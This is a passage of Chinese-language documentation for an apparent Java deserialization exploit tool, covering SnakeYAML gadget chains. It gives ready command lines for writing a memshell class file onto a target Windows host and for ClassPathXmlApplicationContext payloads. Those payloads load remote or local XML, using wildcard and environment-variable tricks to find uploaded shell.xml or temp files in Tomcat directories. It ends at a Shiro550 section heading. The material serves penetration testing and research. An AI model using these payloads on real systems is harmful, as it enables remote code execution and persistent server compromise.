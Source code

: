 工具：最后写文件的格式为：`{source.file}|{destation.file}`，工具会读取source.file也就是你本地这个文件的内容，然后写入目标系统的文件是destation.file。在目标是windows系统中工具的destation.file参数必须用`\\`来分割目录和文件，因为该利用链的Payload中文件路径在Windows系统中要用`\\`分割。

```
-m SnakeYamlAttack -g MarshalOutputStream -a "C:\Users\butler\Desktop\Memshell\EncryptionUtil.class|D:\\04Testing\\Memshell\\EncryptionUtil.class"
```

###  ClassPathXmlApplicationContext 利用链

描述：SnakeYAML能调用构造函数，正好能触发 org.springframework.context.support.FileSystemXmlApplicationContext或org.springframework.context.support.ClassPathXmlApplicationContext 的构造方法来造成代码执行

- ClassPathXmlApplicationContext 支持Java中的伪协议：http，file，netdoc，jar...
- ClassPathXmlApplicationContext 支持通配符+伪协议Trick：
  - 原理：能将构造方法url参数中的通配符(`*`和`?`)指定的文件整理成Resource，然后通过Spring的UrlResource#getInputStream来调用URL#openConnection进行挨个加载。
  - 通配符：这里指的是文件路径中的通配符，`*`：匹配任意数量的任意字符(包括0个字符)，`**` 表示任意层级的目录(包括0层)，`?`：匹配任意单个字符。
  - 环境变量：在构造方法中会调用PropertyPlaceholderHelper#parseStringValue(底层是System#getProperty)解析url参数中`${}`的环境变量，使用replace方法替换到url中，比如`${catalina.home}`
  - 伪协议+通配符使用方式：在`*`和`?`的前面有`*/`和`:`才可以使用通配符Trick。`file:///tmp/*.xml`，`file:///D://tmp//??.?l`，`file:///{tmp}//??.?l`


学习参考：[ClassPathXmlApplicationContext的不出网利用](https://mp.weixin.qq.com/s/GS86e2azoF5AdvGYQPk-7g)

工具：使用这条链会生成 ClassPathXmlApplicationContext 和 FileSystemXmlApplicationContext 俩条Payload。

```
-m SnakeYamlAttack -g ClassPathXmlApplicationContext -a "http://127.0.0.1:2333/1x.ml"

-m SnakeYamlAttack -g ClassPathXmlApplicationContext -a "file:///tmp/*.xml"

-m SnakeYamlAttack -g ClassPathXmlApplicationContext -a "file:///D://tmp//??.?l"

-m SnakeYamlAttack -g ClassPathXmlApplicationContext -a "file:///tmp/tomcat.*/**/*.tmp"

-m SnakeYamlAttack -g ClassPathXmlApplicationContext -a "file:///C://Users/*/AppData/Local/Temp/tomcat*/**/*.tmp"

-m SnakeYamlAttack -g ClassPathXmlApplicationContext -a "file:///${catalina.home}/**/*.tmp"

-m SnakeYamlAttack -g ClassPathXmlApplicationContext -a “jar:file:///C://Users/*/ascii02.jar!/META-INF/resources/shell.xml"

-m SnakeYamlAttack -g ClassPathXmlApplicationContext -a “jar:file:///tmp/ascii02.jar!/META-INF/resources/shell.xml"
```

## 5.Shiro550反序列化(YsoAttack)

### 额外的参数

YsoSimple中关于Shiro550有俩个必须要增加的参数：
